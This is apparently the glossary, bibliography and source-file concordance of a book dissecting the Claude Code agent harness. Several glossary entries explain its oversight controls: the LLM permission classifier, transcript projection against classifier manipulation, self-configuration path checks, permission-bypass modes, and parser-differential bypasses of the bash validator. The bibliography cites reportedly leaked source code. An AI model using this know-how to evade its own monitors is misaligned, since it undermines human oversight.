**keyword scoring** -- The weighted search algorithm in ToolSearchTool that parses queries into terms and matches them against tool name parts, search hints, and descriptions with different weights (10/12 for exact name match, 5/6 for partial, 4 for hint, 2 for description). Keyword scoring balances precision and recall in tool discovery. (src/tools/ToolSearchTool/)

**lazy require** -- A pattern using require() at call time instead of import time to break circular dependencies between modules. Lazy require defers module resolution until the function is actually called, breaking import-time cycles. (src/utils/)

**lazySchema** -- A wrapper function that defers Zod schema evaluation until first call, ensuring runtime feature flags are populated before schema construction. LazySchema solves the boot-order problem where schemas reference feature-gated values that are not yet initialized at import time. (src/Tool.ts)

**loop detector** -- A sliding-window monitor that flags identical tool calls within a configurable time window, preventing infinite retry loops. The loop detector is a structural control that prevents HER Failure Mode 6.7 (Infinite Loops) from consuming unbounded resources. (src/query/)

**mailbox delivery** -- A file-based message delivery mechanism for inter-teammate communication that persists across process restarts, used as a fallback when in-process queue delivery is not possible. Mailbox delivery implements the HER principle of file-based inter-agent communication. (src/tools/SendMessageTool/)

**managed settings** -- Enterprise-administered settings from the policySettings source, loaded from remote API, MDM (HKLM/plist), managed-settings.json (with drop-in directory), or HKCU registry. Managed settings enable organizations to enforce configuration policies across all team members. (src/utils/settings/)

**manifest** -- The book-build state file (manifest.json) tracking all 57 chapters, their source files, audit pass counts, and convergence status. The manifest implements the HER principle of structured state tracking for long-running multi-step processes. (src/utils/tasks.ts)

**memory** -- A persistent note stored in the memdir tiered-memory system, typed as user, feedback, project, or reference, with age tracking. Memory entries implement HER Pattern 3 (Tiered Memory), providing durable knowledge that persists across session boundaries. (src/memdir/)

**memory correction hint** -- A just-in-time behavioral nudge appended to rejection messages when auto-memory is enabled, steering the model toward saving feedback at the moment of denial. Memory correction hints convert negative experiences into durable learning. (src/constants/prompts.ts)

**memory loading hierarchy** -- The priority-ordered cascade of CLAUDE.md file loading: managed, user, project, local, auto-mem, team-mem, where later-loaded files take precedence. The loading hierarchy ensures that project-specific instructions override user defaults, and team instructions override project defaults. (src/utils/claudemd.ts)

**memdir** -- The disk-based tiered memory subsystem at ~/.claude/memories/ that stores, scans, and retrieves memory .md files for context injection. Memdir implements HER Pattern 3, providing persistent memory that survives context resets and session boundaries. (src/memdir/)

**message normalization** -- The process of splitting multi-block messages into individual single-block messages with derived UUIDs, ensuring API structural requirements are met. Normalization handles the mismatch between cc's flexible message model and the Anthropic API's structural constraints. (src/utils/messages.ts)

**meta-chapter** -- A structural chapter that maps between the HER theoretical framework and the technical chapters, serving as connective tissue rather than a source-code deep dive. Meta-chapters (2, 53, 54, 55, 56, 57) synthesize patterns across subsystems rather than analyzing individual files. (Chapter 2)

**microcompact** -- A lightweight compaction pass that trims tool results and history_snip blocks without invoking the model, preserving recent turns intact. Microcompact is the least destructive compaction stage, operating at the token level rather than the semantic level. (src/services/compact/microCompact.ts)

**observation masking** -- The technique of redacting or summarizing prior tool outputs to reduce token cost while preserving decision-relevant information. Observation masking implements HER §8.1, achieving up to 52% cost reduction by suppressing successful tool outputs. (HER §8.1)

**once-hook** -- A hook with once: true that is removed after its first execution, useful for one-time setup commands. Once-hooks enable initialization logic that should not fire on every tool invocation. (src/schemas/hooks.ts)

**Ouroboros problem** -- When both generator and evaluator are LLMs, who validates the validator? Named in HER §9.2 and §18.2 as a fundamental limitation of LLM-based evaluation. The Ouroboros problem motivates cc's preference for deterministic quality gates over LLM-based evaluation. (HER §9.2)

**packed cell layout** -- Storing terminal cell data as two consecutive Int32 elements (characterID and packed style/hyperlink/width) in a contiguous array, eliminating per-cell object allocation. Packed cell layout is a performance optimization that reduces GC pressure in the terminal renderer. (src/ink/screen.ts)

**parser differential** -- A security vulnerability where the validator and the shell interpreter disagree on the parsing of a command string, enabling bypass attacks (e.g., xargs -i vs -I). Parser differentials are a class of security bugs that arise from inconsistencies between validation and execution logic. (src/tools/BashTool/bashSecurity.ts)

**partial compaction** -- User-initiated compaction of a portion of the conversation, preserving either the prefix or suffix while summarizing the other half. Partial compaction gives users manual control over context management when automatic strategies are insufficient. (src/services/compact/)

**path safety validation** -- The process of checking file paths against dangerous file/directory lists, suspicious Windows patterns, and Claude configuration files before allowing auto-edit operations. Path safety validation prevents the agent from modifying its own configuration files or system-critical paths. (src/utils/permissions/filesystem.ts)

**pending state pattern** -- A module-scope variable with a feature() gate that is set during argv parsing and consumed later in the action handler, enabling dead-code elimination of feature-gated code paths. The pending state pattern bridges the gap between CLI flag parsing and the Commander action handler. (src/entrypoints/cli.tsx)

**permission mode** -- A named configuration governing tool-access behavior, such as default, plan, acceptEdits, bypassPermissions, dontAsk, or auto. Permission modes implement the HER principle of tiered access control, with each mode representing a different trust level. (src/utils/permissions/PermissionMode.ts)

**permission mode inheritance** -- The mechanism by which a teammate transitioning from plan mode to implementation inherits the team lead's permission mode, with the exception that plan mode is replaced by default mode to prevent accidental write restrictions. Mode inheritance ensures consistent safety behavior across team members. (src/tools/AgentTool/)

**placeholder tool_result** -- A synthetic tool_result block with identical placeholder text (FORK_PLACEHOLDER_RESULT) inserted for every tool_use block in the parent's assistant message, ensuring all fork children produce byte-identical API request prefixes up to the per-child directive. Placeholder results enable prompt cache sharing across fork children. (src/tools/AgentTool/)

**plan mode** -- A read-only operational mode that restricts the agent to exploration and planning before committing to file modifications. Plan mode implements HER Pattern 6 (Explore-Plan-Act Loop), separating the analysis phase from the implementation phase. (src/tools/EnterPlanModeTool/)

**preapproved URL** -- A URL whose hostname is on the PREAPPROVED_HOSTS allowlist, allowing WebFetchTool to skip explicit per-request permission checks for known-safe documentation sites. Preapproved URLs reduce permission fatigue for commonly-accessed reference documentation. (src/tools/WebFetchTool/preapproved.ts)

**PreToolUse** -- A hook event fired before a tool's call() method executes, allowing interception, modification, or denial of the invocation. PreToolUse hooks are the primary interception point for implementing organizational policies and safety checks. (src/schemas/hooks.ts)

**PostToolUse** -- A hook event fired after a tool's call() method completes, enabling logging, validation, or post-processing of results. PostToolUse hooks are the primary observation point for implementing audit trails and quality gates. (src/schemas/hooks.ts)

**progress bridge** -- The map that chains through consecutive legacy progress entries and rewrites subsequent messages' parentUuid to skip past them, maintaining chain integrity across entries no longer in the type union. Progress bridges enable backwards-compatible session log migration. (src/utils/sessionStorage.ts)

**progressive tool expansion** -- The mechanism by which cc starts with a small set of core tools and loads additional tools on demand via ToolSearch, reducing initial prompt size and improving selection accuracy. Progressive tool expansion implements HER Pattern 9, trading latency on first use for reduced prompt size on every query. (src/tools/ToolSearchTool/)

**prompt assembly** -- The process of composing the system prompt from multiple sections in a specific layer order, including static cacheable sections and dynamic per-session sections separated by a boundary marker. Prompt assembly implements the HER principle of scoped context construction, where each layer adds information without modifying previous layers. (src/constants/prompts.ts)

**quality-gates pipeline** -- A deterministic checkpoint pipeline wired into the query loop that evaluates tool results with lint/type-check/test gates and routes verdicts to pass/fail/escalate actions. Quality gates implement the HER back-pressure stack, where only failures surface to agent context. (HER §20)

**query loop** -- The async generator function in src/query.ts that orchestrates the cycle of API calls, tool dispatch, compaction, and budget checks; the central execution engine of cc. The query loop is the heartbeat of the agent, implementing HER Pattern 6 (Explore-Plan-Act Loop) at the operational level. (src/query.ts)

**queue-and-drain pattern** -- A message delivery pattern where incoming messages are queued in a pendingMessages array and drained at tool-round boundaries, preventing race conditions from mid-execution message injection. The queue-and-drain pattern ensures that message processing happens at safe points in the query loop. (src/tools/SendMessageTool/)

**read-before-write contract** -- The invariant enforced by Write, Edit, and NotebookEdit tools that the model must have read a file before modifying it, preventing blind overwrites and silent data loss. The read-before-write contract is a structural control that makes data loss from unverified writes impossible. (src/tools/FileWriteTool/, src/tools/FileEditTool/)

**readFileState** -- A Map<string, ReadFileEntry> maintained in ToolUseContext that records every file the model has read, along with content, modification timestamp, offset, and limit; used to enforce the read-before-write contract and read deduplication. readFileState is the bookkeeping mechanism behind the read-before-write contract. (src/services/tools/)

**reactive compact** -- An emergency compaction triggered reactively when the API rejects a request for exceeding the context window, using a more aggressive strategy than proactive autocompact. Reactive compaction is the agent's last automatic chance to recover from context overflow before requiring user intervention. (src/services/compact/)

**reading path** -- A recommended traversal order through the book's chapters, selected by reader role or goal (sequential, subsystem, or HER path). Reading paths enable non-linear navigation tailored to different reader backgrounds and objectives. (Chapter 2)

**reference sweeping** -- The O(N) operation performed after task deletion that removes references to the deleted task from all other tasks' blocks and blockedBy arrays, maintaining referential integrity. Reference sweeping prevents dangling references that could cause incorrect task scheduling. (src/tools/TaskDeleteTool/)

**resolve-once guard** -- An atomic check-and-mark primitive (createResolveOnce) that prevents multiple concurrent racers from resolving the same permission promise, using a claimed boolean to close the window between checking isResolved() and calling resolve(). The resolve-once guard prevents race conditions in concurrent permission evaluation. (src/hooks/useCanUseTool.tsx)

**safe-properties auto-allow** -- The optimization in SkillTool.checkPermissions that auto-allows skills whose only non-trivial properties are in the SAFE_SKILL_PROPERTIES set, reducing permission fatigue for safe skills. Safe-properties auto-allow reduces the number of permission dialogs for well-behaved skills. (src/tools/SkillTool/)

**safety-check decision reason** -- A permission decision reason type (decisionReason.type === 'safetyCheck') that makes a tool immune to bypassPermissions and auto-mode classifiers, used for cross-machine communication in SendMessage. Safety-check decisions represent the highest trust level in the permission hierarchy. (src/tools/SendMessageTool/)

**scale confusion** -- The conflation of harnesses operating at very different complexity levels (bash loop ~10 lines, generator-evaluator ~100s, full orchestration ~1000s, reference architecture aspirational) as if they were points on a single continuum. Scale confusion leads to inappropriate generalization of results across very different system types. (HER §18)

**screen differencing** -- The technique of comparing two screen buffers cell-by-cell to emit minimal terminal updates, used in cc's double-buffered rendering pipeline. Screen differencing reduces terminal output volume, improving rendering performance on slow connections. (src/ink/screen.ts)

**scroll drain** -- A mechanism that suspends background intervals during active terminal scrolling to prevent scroll jank, with a 150ms debounce timer that auto-clears. Scroll drain prioritizes user-perceived responsiveness over background task updates. (src/ink/)

**search hint** -- A curated, high-signal capability phrase on a tool definition (e.g., 'search file contents with regex (ripgrep)') that scores higher than the full description in ToolSearchTool keyword matching. Search hints bridge the gap between user intent and tool discovery. (src/tools/ToolSearchTool/)

**section size budget** -- The dual constraint (MAX_SECTION_LENGTH per section, MAX_TOTAL_SESSION_MEMORY_TOKENS total) that prevents session memory from consuming excessive post-compact context. Section size budgets enforce the HER principle of bounded context, preventing any single memory section from monopolizing the context window. (src/services/SessionMemory/)

**selector discipline** -- The practice of ensuring useAppState selectors return stable references (existing sub-object references) rather than creating new objects, to prevent infinite re-renders in useSyncExternalStore-backed hooks. Selector discipline is a performance invariant that prevents reactive loops. (src/state/)

**semantic type wrapper** -- A Zod schema wrapper (semanticNumber, semanticBoolean) that coerces string-typed fields from LLM JSON output into their proper types, reducing tool-call failures from type mismatches. Semantic type wrappers handle the common case where LLMs emit numeric and boolean values as strings. (src/Tool.ts)

**sensor** -- An observability input that feeds runtime state (cost, context size, error rates) back into the harness for adaptive decisions. Sensors correspond to Martin Fowler's taxonomy of "sensors" -- feedback controls that measure system state and trigger responses. (HER §4)

**session** -- A single invocation of the agent from startup to shutdown, persisted as JSONL entries with tombstones for resumability. Sessions implement the HER Session Protocol (§10.3), with structured startup, execution, and shutdown phases. (src/utils/sessionStorage.ts)

**session hook registry** -- The Map<string, SessionStore> structure keyed by session ID that stores ephemeral, in-memory hooks (both command and function type) for the duration of a session. Session hooks enable dynamic hook registration that is automatically cleaned up when the session ends. (src/utils/hooks/sessionHooks.ts)

**session memory** -- A structured Markdown file automatically maintained by a forked subagent during a conversation, capturing task state, errors, and progress in fixed sections, used as input for session-memory compaction. Session memory implements the HER principle of structured handoff across context boundaries. (src/services/SessionMemory/)

**session stamping** -- The practice of re-stamping provenance fields (sessionId, cwd, entrypoint, version) after message spreads to prevent cross-session contamination in forked or resumed sessions. Session stamping is a safety mechanism that prevents session state from leaking across process boundaries. (src/utils/sessionStorage.ts)

**settings cascade** -- The five-source merge hierarchy (plugin -> user -> project -> local -> flag -> policy) that deep-merges configuration from multiple sources with later sources overriding earlier ones. The settings cascade implements the HER principle of layered configuration with predictable precedence. (src/utils/settings/)

**short message ID** -- A 6-character base36 hash derived from a message UUID for use in the history_snip compaction system. Short IDs provide human-readable references to messages while maintaining uniqueness within a session. (src/utils/messages.ts)

**sibling abort** -- The mechanism by which a Bash tool error cancels sibling concurrent tool executions via a child abort controller, without aborting the parent query. Sibling abort implements fail-fast semantics for parallel tool execution, preventing wasted work after a failure. (src/services/tools/toolExecution.ts)

**side query** -- A secondary API call using a smaller model (typically Sonnet) to evaluate or select items without consuming the main model's context budget, used in memdir for relevance selection. Side queries implement model routing, matching task complexity to model cost. (src/memdir/findRelevantMemories.ts)

**skill** -- A reusable, frontmatter-defined capability discovered from ~/.claude/skills or bundled, invoked inline or in a forked context. Skills implement HER §7.3 (Progressive Disclosure), enabling the agent to discover and activate new capabilities dynamically. (src/skills/)

**slash command** -- A user-invocable command parsed from the REPL input line, registered in commands.ts as either prompt or callback type. Slash commands are a configuration surface that enables user-facing functionality without modifying the agent's core behavior. (src/commands.ts)

**slug validation** -- The process of checking a user-controlled string against strict character-allowlist and length rules before joining it into a filesystem path, preventing directory-escape and path-traversal attacks. Slug validation is a structural control that makes path injection impossible by construction. (src/utils/worktree.ts)

**speculative classifier check** -- A pattern where a bash classifier result is raced against a timeout during the permission decision flow, allowing auto-approval of common commands without showing a dialog. Speculative checks reduce perceived latency for clearly safe operations while falling back to interactive prompts for ambiguous cases. (src/hooks/useCanUseTool.tsx)

**spend-rate monitor** -- A rolling-average anomaly detector that fires alerts when both cost-per-minute and tokens-per-minute exceed 2x their respective rolling averages. The spend-rate monitor detects cost anomalies earlier than absolute cost caps, enabling intervention before budgets are exhausted. (src/query/)

**SSRF guard** -- The dns.lookup-compatible function in src/utils/hooks/ssrfGuard.ts that blocks connections to private, link-local, and CGNAT address ranges, preventing HTTP hooks from reaching cloud metadata endpoints. The SSRF guard is a critical security control that prevents the agent from accessing internal network resources. (src/utils/hooks/ssrfGuard.ts)

**staleness warning** -- A text injection appended to recalled memories older than one day via memoryFreshnessText(), reminding the model to verify claims before asserting them as fact. Staleness warnings implement the HER principle of self-aware context quality, preventing the agent from relying on outdated information. (src/memdir/)

**state destructuring pattern** -- The pattern where mutable State is destructured at the top of each loop iteration and reassigned at each continue site, making state transitions explicit and testable. State destructuring enables formal reasoning about the query loop's state machine. (src/query.ts)

**stop hook** -- A user-defined hook evaluated at the Stop lifecycle event when the model declares completion, allowing the harness to inject continuation messages and prevent premature completion. Stop hooks implement HER Failure Mode 6.2 (Premature Completion) by providing a structural control against the agent declaring done too early. (src/query/stopHooks.ts)

**Stone Soup attribution** -- The misattribution of massive human engineering effort to AI capability, where specification, monitoring, and correction labor is invisible in productivity metrics. Stone Soup attribution leads to overestimation of autonomous agent capability and underinvestment in harness engineering. (HER §18)

**structural control** -- An architectural constraint in the harness that makes certain failure modes structurally impossible, as opposed to advisory controls (guides) or feedback controls (sensors). cc's permission system and tool dispatch pipeline are examples. (HER §4)

**structural sharing** -- The pattern where setState creates a new root object while sharing unchanged sub-trees by reference, enabling Object.is identity checks for efficient re-render skipping in reactive state systems. Structural sharing provides O(1) identity checks for unchanged state subtrees. (src/state/)

**structured handoff** -- The pattern of writing a progress file before clearing context and resuming from the file, used as the escape hatch for compaction failure and session-to-session transition. Structured handoffs implement HER Pattern 1, ensuring that no information is lost when context is reset. (HER §5)

**structured message protocol** -- A discriminated-union message schema for inter-agent communication supporting typed lifecycle events (shutdown_request, shutdown_response, plan_approval_response) with request IDs for correlation. The structured message protocol enables reliable inter-agent communication with request-response semantics. (src/tools/SendMessageTool/)

**subagent** -- An agent spawned by the parent agent via AgentTool, running in sync, forked, or remote mode with isolated context. Subagents implement HER Pattern 7 (Context-Isolated Subagents), enabling the parent to delegate work without contaminating its own context window. (src/tools/AgentTool/)

**synthetic message** -- A harness-generated message that never originates from the user or the model, used for flow control (INTERRUPT_MESSAGE, CANCEL_MESSAGE, REJECT_MESSAGE, NO_RESPONSE_REQUESTED). Synthetic messages enable the harness to inject control signals into the message stream without impersonating the user or the model. (src/utils/messages.ts)

**task** -- A durable unit of work tracked through status transitions (pending, in_progress, completed), stored on disk with filesystem locking. Tasks implement the HER principle of persistent state tracking, ensuring that work items survive process crashes and context resets. (src/utils/tasks.ts)

**task budget** -- An API-level budget for the whole agentic turn (output_config.task_budget), distinct from the client-side token budget, with remaining computed per iteration from cumulative API usage. Task budgets provide a server-side cost control that complements the client-side token budget. (src/query/tokenBudget.ts)

**task list identity** -- The mechanism by which getTaskListId() determines which task list an agent operates on, using a priority chain: environment variable, teammate context, team name, leader team name, or session ID. Task list identity enables multi-agent teams to share a common task list. (src/utils/tasks.ts)

**three-gate cascade** -- A pattern for background task scheduling where progressively more expensive checks (time, workload, lock) are evaluated in order, minimizing wasted computation when upstream gates would have rejected the task. The three-gate cascade implements short-circuit evaluation for background process scheduling. (src/services/autoDream/)

**three-outcome model** -- The hook result contract where every hook execution produces one of three primary outcomes: success, blocking, or non_blocking_error (plus cancelled for external interruption). This is a core invariant of the hook system that simplifies error handling and ensures consistent behavior. (src/schemas/hooks.ts)

**token budget** -- A client-side limit on the number of tokens consumed per agentic turn, enforced by BudgetTracker and checkTokenBudget() to detect diminishing returns and budget exhaustion. Token budgets implement HER §13 (Cost Management) at the query-loop level. (src/query/tokenBudget.ts)

**token estimation pipeline** -- The three-tier counting system (API-based, Haiku fallback, rough heuristic) that provides token counts with decreasing accuracy and latency, used when the primary API endpoint is unavailable. The estimation pipeline ensures that token budgeting works even when exact counts are unavailable. (src/services/tokenEstimation.ts)

**tool** -- A typed, schema-validated operation exposed to the model via the tool dispatch pipeline, implemented as a Zod-defined input and a call() method. Tools implement HER Pattern 11 (Single-Purpose Tool Design), where each tool has a narrow, well-defined responsibility. (src/Tool.ts)

**ToolSearch** -- The progressive tool expansion system that exposes a catalog of available tools and loads them lazily upon model request. ToolSearch implements HER Pattern 9, trading a small discovery cost for significant prompt-size savings on every query. (src/tools/ToolSearchTool/)

**trace span** -- An OpenTelemetry-compatible observability record linking tool dispatches, subagent spawns, and model invocations into a causal trace tree. Trace spans enable distributed tracing across multi-agent workflows, implementing the HER principle of full observability. (src/services/analytics/)

**transcript projection** -- The security-motivated transformation of the raw conversation into a compact transcript that excludes assistant text to prevent classifier manipulation. Transcript projection implements the HER principle that the classifier should not see text that the model could have manipulated. (src/utils/permissions/yoloClassifier.ts)

**two-stage classifier** -- A classification pipeline that runs a fast low-token stage first and a slower thinking stage only when the fast stage flags a potential block, reducing latency for clearly safe actions. Two-stage classification optimizes the common case (safe actions) while preserving accuracy for ambiguous cases. (src/utils/permissions/yoloClassifier.ts)

**typeahead engine** -- The multi-source suggestion aggregation system in useTypeahead that merges slash commands, file paths, shell completions, Slack channels, and agent names into a unified ranked list with debouncing and stale-result filtering. The typeahead engine reduces user input latency by predicting likely completions. (src/hooks/useTypeahead.tsx)

**verification nudge** -- The advisory signal in TodoWrite and TaskUpdateTool that fires when the main-thread agent completes 3+ tasks without including a verification step, appending a reminder to spawn the verification subagent. Verification nudges implement the HER principle of verify-before-trust, preventing the agent from accumulating unverified work. (src/tools/TodoWriteTool/, src/tools/TaskUpdateTool/)

**work-secret authentication** -- A per-session authentication mechanism where each spawned cc session is bound to a unique work secret generated at spawn time, preventing unauthorized clients from connecting to or injecting messages into a running session. Work-secret authentication provides defense-in-depth for the bridge transport layer. (src/bridge/)

**worktree** -- A git worktree providing an isolated working directory for parallel development branches, managed by EnterWorktreeTool/ExitWorktreeTool. Worktrees implement HER Pattern 8 (Fork-Join Parallelism), enabling multiple agents to work on different branches simultaneously without interfering with each other. (src/tools/EnterWorktreeTool/, src/tools/ExitWorktreeTool/)

**YOLO classifier** -- The LLM-based classifier that evaluates tool actions against a security policy using a two-stage XML pipeline with transcript projection and prompt caching. The YOLO classifier provides semantic understanding of command intent that pattern-based classifiers cannot achieve. (src/utils/permissions/yoloClassifier.ts)
# Bibliography

## Canonical Sources

1. Prithvi Rajasekaran, "Harness Design for Long-Running Application Development," Anthropic Engineering Blog, March 24, 2026. https://www.anthropic.com/engineering/harness-design-long-running-apps

2. Justin Young et al., "Effective Harnesses for Long-Running Agents," Anthropic Engineering Blog, November 2025. https://www.anthropic.com/engineering/effective-harnesses-for-long-running-agents

3. OpenAI, "Harness Engineering: Leveraging Codex in an Agent-First World," OpenAI Blog, February 11, 2026. https://openai.com/index/harness-engineering/

4. Geoffrey Huntley, "Ralph Wiggum as a Software Engineer," ghuntley.com, July 14, 2025. https://ghuntley.com/ralph/

## Taxonomy and Theory

5. Martin Fowler, "Harness Engineering," martinfowler.com, last modified April 2, 2026. https://martinfowler.com/articles/harness-engineering.html

6. Cen Runzhe, "From Prompt Engineering to Harness Engineering: The Layer That Makes AI Agents Actually Work," Medium, 2026. https://medium.com/@cenrunzhe/from-prompt-engineering-to-harness-engineering-the-layer-that-makes-ai-agents-actually-work-466fe0489fbe

7. LangChain, "The Anatomy of an Agent Harness," LangChain Blog, 2026. https://blog.langchain.com/the-anatomy-of-an-agent-harness/

8. LangChain, "State of Agent Engineering," LangChain, 2025. https://www.langchain.com/state-of-agent-engineering (Survey ran Nov 18-Dec 2, 2025; 1,340 respondents)

9. Anthropic, "Effective Context Engineering for AI Agents," Anthropic Engineering Blog, 2026. https://www.anthropic.com/engineering/effective-context-engineering-for-ai-agents

## Practitioner Perspectives

10. Mitchell Hashimoto, "My AI Adoption Journey," mitchellh.com, February 5, 2026. https://mitchellh.com/writing/my-ai-adoption-journey

11. Muhammad Raza, "Harness Engineering -- The DevOps Skill Nobody Told You About," muhammadraza.me, 2026. https://muhammadraza.me/2026/harness-engineering-devops-perspective/

12. Simon Willison, "Agentic Engineering Patterns," simonwillison.net, February 23, 2026+. https://simonwillison.net/guides/agentic-engineering-patterns/

13. Simon Willison, "Red/Green TDD for Agents," simonwillison.net, 2026. https://simonwillison.net/guides/agentic-engineering-patterns/red-green-tdd/

14. Addy Osmani, "The Code Agent Orchestra," addyosmani.com, 2026. https://addyosmani.com/blog/code-agent-orchestra/

15. Addy Osmani, "Self-Improving Coding Agents," addyosmani.com, 2026. https://addyosmani.com/blog/self-improving-agents/

16. HumanLayer, "Skill Issue -- Harness Engineering for Coding Agents," humanlayer.dev, 2026. https://www.humanlayer.dev/blog/skill-issue-harness-engineering-for-coding-agents

17. HumanLayer, "Writing a Good CLAUDE.md," humanlayer.dev, 2026. https://www.humanlayer.dev/blog/writing-a-good-claude-md

18. Builder.io, "How to Write a Good CLAUDE.md," builder.io, 2026. https://www.builder.io/blog/claude-md-guide

## Practical Guides

19. Generative Programmer, "12 Agentic Harness Patterns from Claude Code," 2026. https://generativeprogrammer.com/p/12-agentic-harness-patterns-from

20. celesteanders, "Building a Harness with Claude," Reddit r/ClaudeAI, 2026. https://www.reddit.com/r/ClaudeAI/comments/1s9jm0d/

21. celesteanders/harness, "Best Practices," GitHub, 2026. https://github.com/celesteanders/harness/blob/main/docs/best-practices.md

22. Cursor, "Agent Best Practices," cursor.com, 2026. https://cursor.com/blog/agent-best-practices

23. Cursor, "Composer 2," cursor.com, 2026. https://cursor.com/blog/composer-2

24. Cognition/Devin, "2025 Performance Review," cognition.ai, 2025. https://cognition.ai/blog/devin-annual-performance-review-2025

25. Claude Code, "Best Practices," code.claude.com, 2026. https://code.claude.com/docs/en/best-practices

26. Claude Code, "Hooks Guide," code.claude.com, 2026. https://code.claude.com/docs/en/hooks-guide

27. UiPath, "10 Best Practices for Reliable Agents," uipath.com, 2026. https://www.uipath.com/blog/ai/agent-builder-best-practices

28. Guardrails.md Protocol, guardrails.md, 2026. https://guardrails.md/

29. NeMo Guardrails, guardrailsai.com, 2026. https://guardrailsai.com/

## Academic Papers

30. "Natural-Language Agent Harnesses (NLAHs)," arXiv:2603.25723, March 2026. https://arxiv.org/html/2603.25723v1

31. "Meta-Harness: End-to-End Optimization," arXiv:2603.28052, March 2026. https://arxiv.org/abs/2603.28052

32. "AutoHarness: Automatically Synthesizing Code Harnesses," arXiv:2603.03329, February 2026. https://arxiv.org/abs/2603.03329

33. "Building AI Coding Agents for the Terminal (OPENDEV)," arXiv:2603.05344, March 2026. https://arxiv.org/html/2603.05344v1

34. "Towards a Science of AI Agent Reliability," arXiv:2602.16666, 2026. https://arxiv.org/html/2602.16666v1

35. "Context Window Overflow," arXiv:2511.22729, 2025. https://arxiv.org/html/2511.22729v1

36. "ACRFence: Preventing Semantic Rollback Attacks in Agent Checkpoint-Restore," arXiv:2603.20625, March 2026. https://arxiv.org/abs/2603.20625

37. "Evaluating AGENTS.md (ETH Zurich)," arXiv:2602.11988, 2026. https://arxiv.org/abs/2602.11988

38. METR, "Measuring AI Ability to Complete Long Tasks," metr.org, March 2025. https://metr.org/blog/2025-03-19-measuring-ai-ability-to-complete-long-tasks/

39. Toby Ord, "Is there a Half-Life for the Success Rates of AI Agents?," arXiv:2505.05115, May 2025. https://arxiv.org/abs/2505.05115

## Platform Documentation

40. Anthropic, "Demystifying Evals for AI Agents," Anthropic Engineering Blog, 2026. https://www.anthropic.com/engineering/demystifying-evals-for-ai-agents

41. JetBrains Research, "Efficient Context Management," blog.jetbrains.com, December 2025. https://blog.jetbrains.com/research/2025/12/efficient-context-management/

42. Redis, "Context Window Overflow 2026," redis.io, 2026. https://redis.io/blog/context-window-overflow/

43. Maxim.ai, "Context Window Management Strategies for Long-Context AI Agents and Chatbots," getmaxim.ai, 2026. https://www.getmaxim.ai/articles/context-window-management-strategies-for-long-context-ai-agents-and-chatbots/

44. Maxim.ai, "Ensuring AI Agent Reliability in Production," getmaxim.ai, 2026. https://www.getmaxim.ai/articles/ensuring-ai-agent-reliability-in-production/

45. AWS, "Durable AI Agents with LangGraph and Amazon DynamoDB," aws.amazon.com, 2026. https://aws.amazon.com/blogs/database/build-durable-ai-agents-with-langgraph-and-amazon-dynamodb/

## Industry Analysis

46. O'Reilly, "Conductors to Orchestrators: The Future of Agentic Coding," oreilly.com, 2026. https://www.oreilly.com/radar/conductors-to-orchestrators-the-future-of-agentic-coding/

47. InfoQ, "OpenAI Harness Engineering," infoq.com, February 2026. https://www.infoq.com/news/2026/02/openai-harness-engineering-codex/

48. Data Science Dojo, "Harness Engineering," datasciencedojo.com, 2026. https://datasciencedojo.com/blog/harness-engineering/

49. Philipp Schmid, "Agent Harness 2026," philschmid.de, 2026. https://www.philschmid.de/agent-harness-2026

50. Louis Bouchard, "Harness Engineering," louisbouchard.ai, 2026. https://www.louisbouchard.ai/harness-engineering/

51. Firecrawl, "What Is an Agent Harness," firecrawl.dev, 2026. https://www.firecrawl.dev/blog/what-is-an-agent-harness

52. Agent Engineering, "Harness Engineering in 2026: The Discipline That Makes AI Agents Production-Ready," agent-engineering.dev, 2026. https://www.agent-engineering.dev/article/harness-engineering-in-2026-the-discipline-that-makes-ai-agents-production-ready

## Context and Memory

53. HAMY, "AI Checkpointing," hamy.xyz, July 2025. https://hamy.xyz/blog/2025-07_ai-checkpointing

54. Zylos, "Long-Running AI Agents," zylos.ai, January 2026. https://zylos.ai/research/2026-01-16-long-running-ai-agents

55. Zylos, "AI Agent Context Compression Strategies," zylos.ai, February 2026. https://zylos.ai/research/2026-02-28-ai-agent-context-compression-strategies

56. Towards Data Science, "Why Your Multi-Agent System Is Failing: Escaping the 17x Error Trap of the Bag of Agents," towardsdatascience.com, 2026. https://towardsdatascience.com/why-your-multi-agent-system-is-failing-escaping-the-17x-error-trap-of-the-bag-of-agents/

## Frameworks and Tools

57. GitHub: celesteanders/harness, 2026. https://github.com/celesteanders/harness

58. GitHub: snarktank/ralph, 2025. https://github.com/snarktank/ralph

59. GitHub: eyaltoledano/claude-task-master, 2026. https://github.com/eyaltoledano/claude-task-master

60. GitHub: ai-boost/awesome-harness-engineering, 2026. https://github.com/ai-boost/awesome-harness-engineering

61. GitHub: Chachamaru127/claude-code-harness, 2026. https://github.com/Chachamaru127/claude-code-harness

## cc Internal References

62. Claude Code Source Code (Leaked via npm Sourcemap), March 31, 2026. Discovered by Chaofan Shou (@Fried_rice). Repository: https://github.com/yasasbanuka/claude-leaked

63. Claude Code API Documentation, Anthropic, 2026. https://docs.anthropic.com/

64. Anthropic SDK Documentation, Anthropic, 2026. https://github.com/anthropics/anthropic-sdk-typescript

65. Bun Runtime Documentation, Oven Software, 2026. https://bun.sh/docs

66. Ink (React for CLI) Documentation, Vadim Demedes, 2026. https://github.com/vadimdemedes/ink
# Source File Concordance

**README.md** -- Chapters 1

**src/QueryEngine.ts** -- Chapters 7

**src/Tool.ts** -- Chapters 11

**src/assistant/sessionHistory.ts** -- Chapters 49

**src/bridge/bridgeMain.ts** -- Chapters 44

**src/bridge/replBridge.ts** -- Chapters 44

**src/buddy/companion.ts** -- Chapters 49

**src/buddy/sprites.ts** -- Chapters 49

**src/commands.ts** -- Chapters 39

**src/constants/prompts.ts** -- Chapters 9

**src/coordinator/coordinatorMode.ts** -- Chapters 21

**src/cost-tracker.ts** -- Chapters 50

**src/entrypoints/cli.tsx** -- Chapters 1, 5

**src/entrypoints/init.ts** -- Chapters 5

**src/entrypoints/mcp.ts** -- Chapters 40

**src/hooks/useCanUseTool.tsx** -- Chapters 12, 35

**src/hooks/useGlobalKeybindings.tsx** -- Chapters 43

**src/hooks/useTypeahead.tsx** -- Chapters 43

**src/hooks/useVoice.ts** -- Chapters 43

**src/ink/Ansi.tsx** -- Chapters 42

**src/ink/ink.tsx** -- Chapters 4, 42

**src/ink/output.ts** -- Chapters 42

**src/ink/screen.ts** -- Chapters 4, 42

**src/main.tsx** -- Chapters 1, 3, 6

**src/memdir/findRelevantMemories.ts** -- Chapters 26

**src/memdir/memdir.ts** -- Chapters 26

**src/memdir/memoryAge.ts** -- Chapters 26

**src/memdir/memoryScan.ts** -- Chapters 26

